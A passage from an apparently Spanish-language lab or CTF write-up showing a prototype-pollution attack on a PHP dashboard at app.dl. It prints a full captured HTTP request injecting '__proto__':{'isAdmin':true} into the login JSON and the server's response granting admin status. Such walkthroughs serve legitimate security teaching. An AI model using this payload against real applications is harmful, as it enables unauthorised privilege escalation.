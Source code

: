 ```
}
```

Veremos que se esta añadiendo correctamente y a parte estamos viendo que esta realizando una validacion de si es `admin` o no en el parametro `"isAdmin":false`, vamos a probechar eso sabiendo que esta ese parametro y que podemos modificarlo de la siguiente forma:

Vamos a volver a capturar la peticion y hacer esto:

```
POST /dashboard.php HTTP/1.1
Host: app.dl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://app.dl/dashboard.php
Content-Type: application/json
Content-Length: 37
Origin: http://app.dl
Connection: keep-alive
Cookie: PHPSESSID=neokpt9n1876qjdr7j946q5kl2
Priority: u=0

{
    "username": "user",
    "password": "user123",
    "__proto__":{ 
	    "isAdmin":true 
	}
}
```

Y veremos que nos responde con esto:

```
HTTP/1.1 200 OK
Date: Wed, 12 Mar 2025 13:24:03 GMT
Server: Apache/2.4.58 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 69
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/json

{
    "username": "user",
    "password": "user123",
    "isAdmin":true
}
```
